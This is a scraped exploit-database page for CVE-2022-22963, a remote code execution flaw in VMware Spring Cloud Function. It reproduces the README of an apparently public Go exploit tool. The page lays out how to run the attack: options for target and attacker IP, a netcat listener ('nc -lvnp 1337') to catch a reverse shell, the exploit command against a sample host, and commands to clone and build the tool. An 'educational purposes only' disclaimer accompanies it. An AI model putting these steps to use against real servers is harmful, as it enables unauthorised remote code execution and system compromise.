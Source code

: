 ```yaml
---
title: Exploit for Code Injection in Vmware Spring Cloud Function exploit
url: https://sploitus.com/exploit?id=E00EE482-CF1E-5781-9A57-928FFA18D762&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-04
fetch_date: 2025-10-04T11:39:24.864467
---
```


# Exploit for Code Injection in Vmware Spring Cloud Function exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Code Injection in Vmware Spring\_Cloud\_Function CVE-2022-22963

2023-05-03 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=E00EE482-CF1E-5781-9A57-928FFA18D762
# CVE-2022-22963

Remote Code Execution exploiting CVE-2022-22963 attacking Spring Cloud service.

**Disclamier: This is for educational purposes only. The author is not responsible for the use of this program. Use under your own risk**

## Usage
```sh
./CVE-2022-22963 -h

Usage:
  CVE-2022-22963 [OPTIONS]

Application Options:
  -u, --target-url=     Target/Host url where 'Spring Cloud' is running. Example: -t http://somesite.htb
  -p, --target-port=    Port running the service. Example: -p 8080
  -i, --attacker-ip=    Attacker IPv4 Address. Example: -i 10.10.10.10
  -l, --listening-port= Listening port to connect. Example: -l 1337

Help Options:
  -h, --help            Show this help message
```

Assume a possible vulnerable target is running at `http://somerandomserver.com:8080`. Start `nc` listening on the port `1337`, so we run `nc -lvnp 1337`. Then, run the script/exploit:
```sh
./CVE-2022-22963 -u http://somerandomserver.com -p 8080 -i 10.10.10.10 -l 1337
```

## Build from source
If you have `go` installed in your machine, just do:
```sh
git clone https://github.com/GunZF0x/CVE-2022-22963.git
cd CVE-2022-22963
go run main.go -h #run without compiling any file
go build -o exploit main.go #build the file
```
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)